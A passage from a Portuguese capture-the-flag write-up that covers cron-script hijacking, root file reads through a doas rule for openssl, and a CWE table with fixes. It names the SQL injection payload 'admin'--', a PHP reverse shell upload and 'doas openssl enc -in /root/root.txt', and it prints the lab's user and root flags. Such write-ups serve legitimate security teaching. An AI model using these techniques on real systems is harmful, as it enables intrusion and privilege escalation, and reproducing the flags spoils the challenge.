chmod +x /var/www/scripts/backup.sh
```

Após no máximo 1 minuto, o cron executou o script e a conexão foi recebida como `plot_admin`:

[](img/shell_no_plot_admin_concluida.png)

### 7.3 User Flag

```bash
cat /home/plot_admin/user.txt
```

[](img/flag_user.png)

```
77927510d5edacea1f9e86602f1fbadb
```

### 7.4 Escalada para Root via doas + openssl (GTFOBins)

A configuração do `doas` permitia que `plot_admin` executasse `openssl` como root sem senha:

```
permit nopass plot_admin as root cmd openssl
```

O `openssl` está catalogado no **GTFOBins** como vetor de leitura arbitrária de arquivos com privilégios elevados. Utilizei o seguinte comando para ler `/root/root.txt` diretamente:

```bash
doas openssl enc -in /root/root.txt
```

[](img/flag_root_com_doas.png)

```
53f85e2da3e874426fa059040a9bdcab
```

---

## 🏁 Flags

| Flag | Hash |
|------|------|
| 🧑 User | `77927510d5edacea1f9e86602f1fbadb` |
| 👑 Root | `53f85e2da3e874426fa059040a9bdcab` |

---

## 🔗 Cadeia de Ataque

```
Nmap → Gobuster (porta 445) → /management/ (TMS)
  └─ /database/traffic_offense_db.sql (Information Disclosure)
       └─ Hashes MD5 quebrados (credenciais inválidas)
  └─ SQL Injection no login (admin'--)
       └─ Painel Admin acessado
            └─ File Upload sem validação (PHP reverse shell)
                 └─ RCE como www-data
                      └─ Cron Job + Script Hijacking
                           └─ Shell como plot_admin → User Flag
                                └─ doas + openssl (GTFOBins)
                                     └─ Root Flag ✅
```

---

## ⚠️ Vulnerabilidades Encontradas

| # | Vulnerabilidade | CWE | Severidade | Localização |
|---|----------------|-----|-----------|-------------|
| 1 | Directory Listing Habilitado | CWE-548 | 🟡 Média | Apache — portas 80 e 445 |
| 2 | Information Disclosure — Dump SQL Exposto | CWE-200 | 🔴 Alta | `/management/database/traffic_offense_db.sql` |
| 3 | Senhas Armazenadas em MD5 sem Salt | CWE-916 | 🔴 Alta | Tabela `users` no banco de dados |
| 4 | SQL Injection — Authentication Bypass | CWE-89 | 🔴 Crítica | `/management/admin/login.php` |
| 5 | Unrestricted File Upload — RCE | CWE-434 | 🔴 Crítica | `/management/admin/?page=system_info` |
| 6 | Cron Job com Script World-Writable | CWE-732 | 🔴 Alta | `/var/www/scripts/backup.sh` |
| 7 | Misconfiguration doas + Binário GTFOBins | CWE-269 | 🔴 Alta | `/etc/doas.conf` — `openssl` sem senha |

### Detalhamento

**🟡 CWE-548 — Directory Listing Habilitado**
O servidor Apache estava configurado com `Options +Indexes`, permitindo navegação livre nos diretórios da aplicação sem autenticação. Facilitou a descoberta de todos os demais artefatos sensíveis.
**Correção:** Desabilitar via `Options -Indexes` no VirtualHost ou `.htaccess`.

---

**🔴 CWE-200 — Information Disclosure (Dump SQL)**
O arquivo `traffic_offense_db.sql` com estrutura completa do banco e hashes de senha estava publicamente acessível sem qualquer controle de acesso.
**Correção:** Remover dumps de banco do webroot; restringir acesso ao diretório `/database/` via autenticação ou regras de firewall.

---

**🔴 CWE-916 — Armazenamento de Senhas em MD5 sem Salt**
Os hashes das senhas utilizavam MD5 puro, um algoritmo criptograficamente quebrado e reversível em segundos com wordlists comuns como `rockyou.txt`.
**Correção:** Migrar para algoritmos modernos como **bcrypt** ou **Argon2** com salt aleatório por usuário.

---

**🔴 CWE-89 — SQL Injection (Authentication Bypass)**
O campo de usuário no formulário de login não sanitizava o input, permitindo bypass completo de autenticação com o payload `admin'--` sem necessidade de senha.
**Correção:** Utilizar **prepared statements** / **queries parametrizadas**. Nunca concatenar input do usuário diretamente em queries SQL.

---

**🔴 CWE-434 — Unrestricted File Upload (RCE)**
Os campos de upload na área de Settings não validavam o tipo do arquivo no servidor, permitindo o envio de arquivos `.php` executáveis que resultaram em execução remota de código.
**Correção:** Validar extensão e MIME type no servidor; armazenar uploads fora do webroot ou com permissão de execução desabilitada; renomear arquivos no upload.

---

**🔴 CWE-732 — Permissões Incorretas em Script de Cron**
O script `/var/www/scripts/backup.sh`, executado a cada minuto pelo usuário `plot_admin`, possuía permissão de escrita para outros usuários (`rwxrwx`), permitindo que `www-data` substituísse seu conteúdo por uma reverse shell.
**Correção:** Restringir permissões do script para `rwx------` (somente o dono). Auditar regularmente tarefas cron e seus recursos associados.

---

**🔴 CWE-269 — Configuração Incorreta de Privilégios (doas)**
A regra `permit nopass plot_admin as root cmd openssl` no `/etc/doas.conf` permitia executar o `openssl` como root sem senha. Como `openssl` está catalogado no **GTFOBins** como vetor de leitura de arquivos arbitrários, isso resultou na leitura direta da root flag.
**Correção:** Nunca conceder `nopass` a binários que possam ser abusados para leitura/escrita de arquivos. Auditar o `/etc/doas.conf` com o princípio do menor privilégio.

---

## 🛠️ Ferramentas Utilizadas

| Ferramenta | Uso |
|------------|-----|
| Nmap | Varredura de portas e serviços |
| Gobuster | Enumeração de diretórios web |
| John the Ripper | Quebra de hashes MD5 |
| Netcat | Listener para reverse shells |
| PHP Reverse Shell | Webshell para acesso inicial |
| doas + openssl | Leitura de arquivo root via GTFOBins |

---

📝 **Documentação criada por twix**
